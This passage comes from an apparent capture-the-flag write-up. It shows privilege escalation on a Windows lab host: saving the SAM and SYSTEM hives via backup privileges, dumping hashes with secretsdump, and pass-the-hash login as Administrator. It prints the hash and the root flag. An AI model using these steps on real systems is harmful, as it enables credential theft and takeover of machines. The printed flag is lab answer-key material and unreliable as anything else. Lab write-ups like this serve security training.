BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to SYSTEM

First of all we extracted `system` and `sam` out of the `registry` and downloaded it to our local machine.

```c
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\system "C:\Users\emily.oscars.CICADA\Documents\system.hive"
The operation completed successfully.
```

```c
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\sam "C:\Users\emily.oscars.CICADA\Documents\sam.hive"
The operation completed successfully.
```

```c
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download sam.hive
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\sam.hive to sam.hive
                                        
Info: Download successful!
```

```c
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download system.hive
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\system.hive to system.hive
                                        
Info: Download successful!
```

Then we used `impacket-secretsdump` to extract it's `hashes`.

```c
$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

The `hash` of `Administrator` allowed to use `Pass-the-Hash (PtH)` to login and to grab the `root.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i '10.129.180.249' -u 'Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a640419b92185ae9df6f3a0eda0a9372
```
